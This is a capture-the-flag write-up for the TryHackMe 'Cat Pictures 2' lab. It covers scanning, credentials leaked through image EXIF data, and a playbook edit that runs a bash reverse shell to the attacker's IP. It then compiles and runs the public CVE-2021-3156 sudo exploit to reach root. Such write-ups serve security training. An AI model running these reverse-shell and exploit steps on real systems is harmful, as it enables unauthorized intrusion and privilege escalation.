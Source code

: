 ```yaml
---
title: "Cat Pictures 2"
date: 2023-07-07 18:02:00 +0800
categories: [TryHackMe]
tags: [cve, sudo, exifdata]
image:
  path: /banners/catpictures2.png
---
```




> Description : Now with more Cat Pictures!
{: .prompt-info }





# Enumeration


### Let's begin with a rapid Nmap scan.


```bash
root@Fs:.../CTFs/catpictures2# nmap -sCV -oN nmap 10.10.44.70
# Nmap 7.80 scan initiated Mon Jul  3 19:58:08 2023 as: nmap -sCV -oN nmap 10.10.44.70
Nmap scan report for 10.10.44.70
Host is up (0.079s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
|_http-title: Lychee
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  3 19:58:29 2023 -- 1 IP address (1 host up) scanned in 21.17 seconds
```

    *80 — lychee*
    *8080 — python http server*
    *22,222 — ssh*


### Performing a scan using Dirsearch

```bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.187.79/-_23-07-06_21-12-01.txt

Error Log: /root/.dirsearch/logs/errors-23-07-06_21-12-01.log

Target: http://10.10.187.79/

[21:12:01] Starting: 
[21:12:03] 301 -  193B  - /robots.txt 
[21:12:04] 403 -  579B  - /.git/
[21:12:04] 403 -  579B  - /.github/
[21:12:04] 403 -  579B  - /.git/refs/
[21:12:04] 403 -  579B  - /.git/objects/
[21:12:04] 200 -  154B  - /.github/ISSUE_TEMPLATE.md
[21:12:04] 200 -  274B  - /.gitignore
[21:12:04] 200 -  630B  - /.htaccess
[21:12:07] 200 -  387B  - /.user.ini
[21:12:09] 200 -    1KB - /LICENSE
[21:12:10] 200 -    5KB - /README.md
```

I attempted to gather information by exploring the .git repository and robots.txt file, but unfortunately, I didn't find anything of interest.

After some time, I managed to discover interesting information from the EXIF data extracted from an image.

```
root@Fs:.../CTFs/catpictures2# exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
ExifTool Version Number         : 12.40
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 71 KiB
File Modification Date/Time     : 2022:11:07 19:44:37+01:00
File Access Date/Time           : 2023:07:06 21:20:55+01:00
File Inode Change Date/Time     : 2023:07:06 21:19:41+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Profile CMM Type                : Little CMS
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2012:01:25 03:41:57
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : c2
Profile Copyright               : IX
Media White Point               : 0.9642 1 0.82491
Media Black Point               : 0.01205 0.0125 0.01031
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Red Tone Reproduction Curve     : (Binary data 64 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 64 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 64 bytes, use -b option to extract)
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
Image Width                     : 720
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 720x1080
Megapixels                      : 0.778
```
this part
```Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt```

It appears that the system is utilizing The other web server to retrieve Info.

```red
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

 samarium:TUmhyZ37CLZrhP


### Upon obtaining this information, we realized that there is a Gitea server running on port 3000, and we have obtained valid credentials for it.

![Screenshot from 2023-07-06 21-31-32](https://github.com/ACHUX21/Writeups/assets/130113878/d5da60f1-a1cd-4731-af5d-89b6eccc7f87)

# Gaining access
![image](https://github.com/ACHUX21/Writeups/assets/130113878/23cfac7c-5b54-494f-a91b-be69ffc138f1)


Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the execution of Ansible playbooks, I intend to replace the existing "echo" command with a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
```

After obtaining a shell, I discovered an "id_rsa" file, which I utilized to establish a more stable shell.
Subsequently, I attempted to exec Linpeas on the server to conduct further enumeration and analysis.

```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
```


## Priv-Esc


we have a vulnerable sudo version here.
After patiently waiting during the Linpeas scan, I stumbled upon an interesting CVE (Common Vulnerabilities and Exposures) in the target machine. To gather more information, I conducted a Google search and came across a GitHub proof-of-concept ([! POC](https://github.com/blasty/CVE-2021-3156)) related to the discovered vulnerability.




Let's set up a Python3 server to share the CVE details with the target.

```bash
root@Fs:.../www/html# ll
total 9.6M
drwxr-xr-x 3 root  root  4.0K Jul  5 18:01 CVE-2021-3156/
-rw-r--r-- 1 root  root  3.1M Jun  4 05:27 linpeas_linux_amd64
-rwxrwxr-x 1 achux achux 817K Jun  6 16:41 linpeas.sh*
-rw-rw-r-- 1 achux achux 5.7M Jun  5 23:55 nmap
-rw-r--r-- 1 root  root   18K Jun  6 15:42 PwnKit
root@Fs:.../www/html# webup
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
! note : webup /=/ alias "webup='python3 -m http.server 8000'"


```bash
bismuth@catpictures-ii:/$ cd /tmp; wget -r 10.18.81.222/CVE-2021-3156/
```

let's go aHead to explore the CVE

```bash
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  Makefile  README.md
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  libnss_X  Makefile  README.md  sudo-hax-me-a-sandwich
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# 
```
And now we have pwned the machine
I appreciate your patience❤️ 





 
 













